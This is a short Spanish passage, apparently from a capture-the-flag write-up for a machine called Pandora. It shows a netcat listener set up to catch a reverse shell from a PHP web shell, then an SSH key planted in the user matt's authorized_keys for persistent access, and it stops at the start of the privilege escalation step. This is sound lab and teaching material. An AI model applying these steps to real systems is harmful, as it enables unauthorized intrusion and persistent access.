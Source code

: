 ![PHP Shell](/secciones/posts/imagenes/pandora/shellphp.webp)

Abrimos una consola con nc en el puerto que introducimos:

```bash
sudo nc -nlvp [puerto]
```

```bash
mkdir .ssh
chmod 700 .ssh
cd .ssh
touch authorized_keys
```

Y le damos permisos 600:

```bash
chmod 600 authorized_keys
```

Luego copiamos el archivo `id_rsa.pub` y lo pegamos dentro de `authorized_keys`. Nos conectamos desde nuestra máquina al usuario matt:

```bash
ssh matt@[ip]
```

## Escalada de privilegios

Una vez dentro tenemos la flag de usuario y procederemos a buscar archivos con permisos SUID:
